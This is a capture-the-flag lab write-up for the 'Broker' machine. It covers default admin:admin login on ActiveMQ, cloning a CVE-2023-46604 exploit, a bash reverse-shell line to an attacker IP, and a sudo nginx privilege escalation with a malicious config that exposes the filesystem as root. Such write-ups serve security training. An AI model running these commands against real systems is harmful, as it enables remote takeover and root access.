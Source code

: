 # Broker

| Name      | IP           | Difficulty | OS    |
| --------- | ------------ | ---------- | ----- |
| broker | 10.10.11.243 | Easy       | Linux |

## NMAP

| HOST         | PORT | PROTO | SERVICE | VERSION                 |
| ------------ | ---- | ----- | ------- | ----------------------- |
| 10.10.11.243 | 22   | tcp   | OpenSSH | 8.9p1 Ubuntu 3ubuntu0.4 |
| 10.10.11.243 | 80   | tcp   | nginx   | 1.18.0                  |

## HEADERS

```
HTTP/1.1 401 Unauthorized
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 10 Nov 2023 12:54:50 GMT
Content-Type: text/html;charset=iso-8859-1
Content-Length: 447
Connection: keep-alive
WWW-Authenticate: basic realm="ActiveMQRealm"
Cache-Control: must-revalidate,no-cache,no-store
```

## DIRECTORIES

- /

## USERS

- (http auth) admin:admin
- (machine) activemq
- (machine) root

## NOTES

- Basic http auth on /
- Jetty 9.4.39
- Login with `admin:admin`
- ActiveMQ message broker v5.15.15 (java based)
- Exploit `git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ`
- Change `poc-linux.xml` to do `bash -c bash -i &gt;&amp; /dev/tcp/10.10.14.5/9001 0&gt;&amp;1` (html encoded)
- Get user flag `cat ~/user.txt`
- Check sudo permissions `sudo -l (ALL : ALL) NOPASSWD: /usr/sbin/nginx`
- Copy the current nginx.conf to a writeable folder `cp /etc/nginx/nginx.conf /dev/shm/`
```
# malicious nginx config
user root;
worker_processes auto;
pid /run/nginx.pid2;
include /etc/nginx/modules-enabled/*.conf;

events {
        worker_connections 768;
}

http {
        server {
                listen 1337;
                location / {
                        root /;
                        autoindex on;
                        }
                }
}
```
- Set nginx config file to malicious one `sudo nginx -c /dev/shm/nginx.conf`
- Get root flag `curl localhost:1337/root/root.txt`
